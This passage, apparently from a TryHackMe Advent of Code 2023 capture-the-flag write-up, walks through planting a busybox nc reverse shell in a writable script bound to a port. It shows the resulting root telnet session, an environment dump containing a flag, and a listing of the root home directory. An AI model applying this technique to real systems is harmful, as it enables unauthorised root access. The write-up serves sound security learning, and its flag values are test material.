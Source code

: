 Now to summarize:

I have a confirmed shell that I have write access to at `/usr/frosty/sh`, I have a valid binary that exists where I can get to it in `/etc/file/busybox`, and I have that script bound to a port that I know is open to my attack box on port 8065. This is all the makings of a cheap Hollywood hacker scene.

I go to `/usr/frosty/sh`, I add a line to call `/etc/file/busybox` nc reverse shell and telnet to 8065 and!... nothing. Nothing happened. Same error screen.

I went back in to the script and changed it to include the shell location of `#!/etc/file/busybox` and tried again.

```bash
┌──(tokugero㉿kali)-[~/thm/rooms/aoc2023/task3]
└─$ telnet
telnet> toggle localchars
Won't recognize certain control characters.
telnet> open 10.10.83.24 8065
Trying 10.10.83.24...
Connected to 10.10.83.24.
Escape character is '^]'.

Ubuntu 22.04.3 LTS
/ # whoami
/usr/frosty/sh: whoami: not found
/ # /etc/file/busybox whoami
root
/ # /etc/file/busybox cat /usr/frosty/sh
#!/etc/file/busybox
```
Well I won't get easy access to the commands, but I will get my shell; and not only that: Looks like it was running as root too! Very convenient.

Now I was able to do my ps properly and get a view of the system. We're running websockify in front of Xtigervnc, which explains why I couldn't get to it with a browser, we've got many docker ports open that I SHOULDN'T be seeing on my container, I'm seeing a GUI environment with the ubuntu user account, and finally my precious PIDs that helped me get to where I am today.

In some CTF events, if the flag's not in your env, it's in your home directory. So lets grab those and go find that last flag.

```bash
/ # /etc/file/busybox env
BOOTSTRAP=/etc/bootstrap.sh
HOSTNAME=busybusybox
FTPD_BANNER=Frosteau very busy note box
SHLVL=2
PROT=/usr/special/protector.sh
HOME=/root
FLAG2=THM{Seems.like.we.are.getting.busy}
BUSY=/etc/busybox
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SHELL=/etc/shells
PASSWD=/etc/passwd
PWD=/
BU=/etc/file/busybox
/ # /etc/file/busybox ls /root/
flag-3-of-4.txt
/ # 
```
So from our original prompt and gif, we have gotten something from FTP, we've gotten something from Vim, we've gotten something from busybox... now we just need to go find our white(blue) whale.
